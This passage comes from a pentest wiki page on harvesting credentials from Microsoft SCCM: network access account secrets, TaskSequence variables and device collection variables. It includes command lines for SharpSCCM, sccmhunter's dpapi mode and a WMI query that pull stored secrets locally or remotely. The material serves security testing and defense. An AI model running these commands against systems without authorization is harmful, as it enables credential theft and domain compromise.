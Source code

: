SharpSCCM also permits to request the SCCM policy remotely to retrieve the NAA credentials inside.

```powershell
SharpSCCM.exe get secretes
```
{% endtab %}
{% endtabs %}

#### TaskSequence variables

TaskSequence are steps that can be configured by an administrator to perform specific actions, for example "Sequence for adding a machine to the domain". Think of it as a script that runs. These TaskSequences can contain variables that can contain credentials. These sequences can use device collection variables (presented in the next section) as conditions.

{% tabs %}
{% tab title="UNIX-based" %}
From UNIX-like systems, with administrative privileges over a device enrolled in the SCCM environment, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used to extract the TaskSequence variables remotely.

```powershell
# Extracting from WMI repository root\ccm\policy\Machine\ActualConfig namespace:
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET_IP -wmi

# Extracting from WMI repository OBJECTS.DATA file:
python3 sccmhunter.py dpapi -u $USER -p $PASSWORD -d $DOMAIN -dc-ip $DC_IP -target $TARGET_IP -disk
```
{% endtab %}

{% tab title="From Windows" %}
From a Windows machine enrolled in the SCCM environment, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) (C#) or a PowerShell command can be used with, administrative rights, to extract the TaskSequence variables locally.

```powershell
# Locally from WMI 
Get-WmiObject -Namespace ROOT\ccm\policy\Machine\ActualConfig -Class CCM_TaskSequence

# Extracting from CIM store
SharpSCCM.exe local secrets -m disk

# Extracting from WMI
SharpSCCM.exe local secrets -m wmi
```

SharpSCCM also permits to request the SCCM policy remotely to retrieve the NAA credentials inside.

```powershell
SharpSCCM.exe get secrets
```
{% endtab %}
{% endtabs %}

#### Device Collection variables

Devices enrolled in an SCCM environment can be grouped by collection. These exist by default, but administrators can create custom collections (for example "Server 2012 devices"), and add variables for these collections that will be used, for example, during application deployement to check some conditions. These variables may very well contain credentials and be found locally on the clients.
